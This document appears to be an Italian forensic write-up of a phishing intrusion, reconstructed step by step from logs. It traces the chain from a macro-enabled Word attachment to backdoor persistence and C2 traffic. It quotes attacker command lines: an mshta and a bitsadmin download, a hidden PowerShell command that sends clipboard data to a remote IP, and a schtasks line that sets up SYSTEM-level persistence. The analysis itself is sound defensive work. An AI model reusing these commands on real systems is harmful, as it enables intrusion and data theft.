 

Email & Proxy log

![ ](../image/5a.png)

Endpoint/Host logs

![ ](../image/5b.png)




# 


```
Email Delivery
 └── 08:16:41 MAILGW01 → Email da billing@invoices-cloud[.]com (Invoice_0822.docm in allegato)
 └── 08:17:03 MAILGW01 amavis → Segnalata come CLEAN, consegnata alla mailbox
 └── 09:01:26 O365 → Outlook sincronizza il messaggio su WIN10-LAPTOP
```

08:16:41...il server di posta MAILGW01 riceve un’email proveniente da billing@invoices-cloud[.]com, con oggetto Invoice_0822.docm. L’allegato è un documento Word con macro abilitate, tipicamente usato dagli attaccanti per introdurre codice malevolo. L’email è indirizzata all’utente a.wilson@corp.local.

08:17:03, l’email passa attraverso il filtro amavis, che controlla spam e malware. Il messaggio però viene marcato come CLEAN e inoltrato normalmente alla casella dell’utente. Questo è il primo punto debole.. il sistema di sicurezza non riconosce il rischio e consente la consegna dell’allegato.

09:01:26, il servizio O365 sincronizza la posta con il computer dell’utente WIN10-LAPTOP, scaricando il messaggio e rendendolo disponibile localmente. In questo momento l’allegato è presente sul PC, ma non è stato ancora aperto. L’attacco resta quindi in fase dormiente, in attesa dell’interazione dell’utente.
Parallelamente, i log del proxy mostrano traffico normale e anche una richiesta sospetta verso doc-viewer.cdncloud[.]net, collegata alla stessa campagna. Questo indica che l’infrastruttura esterna del nemico è già attiva e pronta.

#



```

Esecuzione Allegato
 └── 09:13:01 WINWORD.EXE apre Invoice_0822.docm
     └── 09:13:07 wscript.exe esegue ~DF3A.vbs (macro payload)
         └── 09:14:59 mshta.exe scarica / cache ViewerControl.cab
             └── 09:15:04 ViewerControl.tmp creato su disco
             └── 09:15:06 rundll32 prova ad eseguire DLL export (fallisce, nessun entry point)
```


09:13:01, l’utente a.wilson apre l’allegato ricevuto tramite Outlook. Viene avviato WINWORD.EXE con comando WINWORD.EXE `C:\Users\a.wilson\Downloads\Invoice_0822.docm`. Questo processo ha PID 3560, generato da explorer.exe (PID 2824). Fin qui sembra un’azione normale di lavoro.
Pochi secondi dopo, alle 09:13:07, Word esegue una macro contenuta nel documento, che lancia wscript.exe con comando wscript.exe //B //E:vbscript `C:\Users\a.wilson\AppData\Local\Temp\~DF3A.vbs`. Il processo, con PID 3572, mostra che la macro ha creato ed eseguito uno script VBScript. È già un chiaro segnale di attività sospetta, visto che Word non dovrebbe avviare script.

09:14:59, lo script genera un altro processo... `mshta.exe`, un tool legittimo di Windows usato per eseguire applicazioni HTML. Il comando è 
`mshta http://cdn-docs[.]io/cab/ViewerControl[.]cab#main`
 Questo processo, con PID 3611, scarica un componente malevolo dalla rete. L’uso di mshta è tipico di attacchi fileless.
Pochi secondi dopo, alle 09:15:04, il sistema registra la creazione del file 
`C:\ProgramData\ViewerControl[.]tmp (hash SHA256=7B1F5D2…)`. È il payload scaricato.

Infine,09:15:06, il processo `rundll32.exe `(PID 3620) tenta di eseguire il file appena salvato con` rundll32 C:\ProgramData\ViewerControl[.]tmp,Export`. L’operazione però fallisce con errore STATUS_DLL_NOT_FOUND, perché il file non è un vero DLL.

#


```
[Fase di Download]
 └── 10:03:05 bitsadmin.exe scarica zoom_update.exe da media-storage[.]cc
     └── 10:03:33 zoom_update.exe salvato in Downloads
     └── 10:04:01 zoom_update.exe eseguito (/quiet)
```


10:03:05, sul computer di a.wilson parte il processo `bitsadmin.exe` (PID 5012), uno strumento legittimo di Windows usato per trasferimenti in background. 
`bitsadmin /transfer u /download /priority NORMAL http://media-storage.cc/update/zoom_update.exe C:\Users\a.wilson\Downloads\zoom_update.exe`
...mostra che l’attaccante sfrutta bitsadmin per scaricare un file eseguibile esterno, chiamato `zoom_update.exe`, dal dominio malevolo media-storage[.]cc. Il processo viene lanciato da svchost.exe (PID 980), segno che l’attività è mascherata come legittima.

10:03:33, Sysmon registra la creazione del file `C:\Users\a.wilson\Downloads\zoom_update.exe`. L’hash SHA256 associato è E4C1A9F…(non si vede tutto l’hash dal log), confermando che si tratta di un nuovo binario scritto sul disco. Il fatto che sia salvato nella cartella Downloads aumenta il rischio che l’utente non lo noti immediatamente, ma che venga eseguito in seguito.
Infatti, 

pochi secondi dopo, alle 10:04:01, l’utente (o uno script) avvia il file con ilcmd:
`C:\Users\a.wilson\Downloads\zoom_update.exe /quiet`
Il nuovo processo ha PID 5050 e viene lanciato da explorer.exe (PID 2824). Il parametro /quiet indica che l’esecuzione avviene senza finestra o notifiche visibili, comportamento tipico dei malware che vogliono rimanere nascosti.
Questa fase conclude con successo il download e l’esecuzione del payload malevolo, aprendo la strada alla persistenza e al collegamento con i server di comando e controllo.

#



```
[Installazione Persistenza]
 └── 10:04:04 Registry Run key → ZoomHelper (zh.exe)
 └── 10:04:29 TaskScheduler task "\User\ZoomHelperUpdate" creato
     └── 10:05:01 zh.exe lanciato tramite scheduled task
```
10:04:04, subito dopo l’esecuzione di `zoom_update.exe `(PID 5050), viene creato un nuovo valore di registro in `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` chiamato `ZoomHelper`. Questo valore punta a 
`C:\Users\a.wilson\AppData\Roaming\ZoomHelper\zh.exe`. In questo modo, ad ogni avvio del sistema, il programma malevolo partirà automaticamente.

Alle 10:04:09, Sysmon registra che lo stesso eseguibile tenta una connessione in uscita verso `203.0.113.50:443`. È il primo contatto con l’infrastruttura di comando e controllo, ma il processo resta sotto il PID 5050.
Pochi secondi dopo, alle 10:04:13, viene scritto sul disco il file zh.exe in `C:\Users\a.wilson\AppData\Roaming\ZoomHelper\`.  è la vera backdoor usata dall’attaccante.

10:04:29, i log mostrano che il malware registra un’attività nel Task Scheduler, con il nome \User\ZoomHelperUpdate. L’autore risulta a.wilson, e l’azione è lanciare zh.exe -update. Ciò garantisce che anche se l’utente cancella il valore Run nel registro, l’attività pianificata farà ripartire l’infezione.
Infine, alle 10:05:01, il task viene eseguito, generando un nuovo processo con PID 5121, che lancia direttamente zh.exe.

#


```
[C2 & Data Exfiltration ]
 └── 10:07:44 zh.exe genera powershell.exe → POST clipboard data → 203.0.113.50/api/p
 └── 10:12:37 Registry Load key → zh.exe aggiunto (seconda persistenza)
 └── 10:17:19 zh.exe invia DNS beacon → 198.51.100.44:53
```

Alle 10:07:44, il processo zh.exe (PID 5121, avviato dal task pianificato) genera un nuovo sottoprocesso powershell.exe (PID 5184). Il comando è:
`powershell -nop -w hidden -c Invoke-RestMethod https://203.0.113.50/api/p -Method POST -Body (Get-Clipboard)`
Questo significa che il malware raccoglie i dati copiati negli appunti dell’utente e li invia al server remoto 203.0.113.50 tramite protocollo HTTPS. L’uso di PowerShell con parametri -nop e -w hidden è tipico di esecuzioni stealth, senza mostrare finestre visibili.

Alle 10:12:03, lo stesso zh.exe (PID 5121) crea un nuovo processo cmd.exe (PID 5242) con ...
`schtasks /create /sc minute /mo 30 /tn \System\ZhSvc /tr C:\Users\a.wilson\AppData\Roaming\ZoomHelper\zh.exe /ru SYSTEM`
L’operazione riesce, creando un nuovo meccanismo di persistenza a livello SYSTEM, anche se l’utente normale venisse rimosso.
Poi  zh.exe scrive un ulteriore valore di registro in `HKCU\Software\Microsoft\Windows NT\CurrentVersion\Windows\Load`, che punta di nuovo a zh.exe. Questo rappresenta il secondo layer di persistenza.

Infine, alle 10:17:19, zh.exe stabilisce un canale di comunicazione alternativo tramite DNS beacon, connesso all’IP 198.51.100.44:53 usando protocollo UDP. Questo permette all’attaccante di mantenere il controllo anche se le connessioni HTTPS fossero bloccate.

poi a.wilson si è disconnesso da WIN10-LAPTOP per inattività (IdleTimeout).
Questo segna la fine della sessione, ma il malware zh.exe rimane persistente nel sistema.


